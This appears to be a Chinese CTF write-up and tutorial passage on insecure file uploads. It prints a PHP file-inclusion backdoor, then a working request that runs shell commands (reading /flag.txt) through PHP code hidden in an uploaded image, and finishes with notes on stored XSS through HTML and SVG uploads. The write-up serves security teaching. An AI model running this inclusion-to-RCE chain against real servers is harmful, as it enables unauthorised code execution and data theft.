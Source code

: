 

文件上传成功，但是文件后缀被重置为 png 。

```
<img src="./upload/1320250310011520.png" width="250px" />
```



直接访问 ./upload/1320250310011520.png 服务器返回图片内容，通过查看网页源代码发现一个 include.php 路径。

```
<p><a href="/include.php" target="_blank">奡神的神秘链接</a></p>
```



该网页直接返回了服务器源代码，服务器存在任意文件包含漏洞。

```php
<?php
header("Content-Type:text/html;charset=utf-8");
$file = $_GET['file'];
if(isset($file)) {
	include $file;
} else {
	show_source(__file__);
}
/*这里是妙妙屋的后门*/
?>
```



通过任意文件包含漏洞执行图片元数据中的 PHP 代码。

```
http://cacf0379-6a72-4e23-b3f8-5a86927a1574.www.polarctf.com:8090/include.php?file=./upload/1320250310011520.png&command=echo%20%22AAAAA%22%20;%20cat%20/flag.txt%20;%20echo%20%22BBBBB%22
```

```
file=./upload/1320250310011520.png&command=echo "AAAAA" ; cat /flag.txt ; echo "BBBBB"
```



服务器返回的内容

```
CommentAAAAA flag{dfbb09ce0b4ae994b2a8249b810ea22d}BBBBB ��M�
```



## 非服务端脚本执行

迄今为止，我们讨论的案例均通过上传服务器端脚本实现远程代码执行。虽然这是不安全的文件上传功能最严重的后果，但这些漏洞仍有其他利用方式。



虽然您可能无法在服务器端执行脚本，但仍然可以上传用于客户端攻击的脚本。例如，若能上传 HTML 文件或 SVG 图像，您可利用 `<script>` 标签构造存储型 XSS 攻击载荷。

当被上传的文件出现在其他用户访问的页面时，其浏览器在尝试渲染页面时会执行这些脚本。需注意的是，由于同源策略限制，此类攻击仅在上传文件与访问页面属于同源（即从同一域名提供服务）时方可生效。
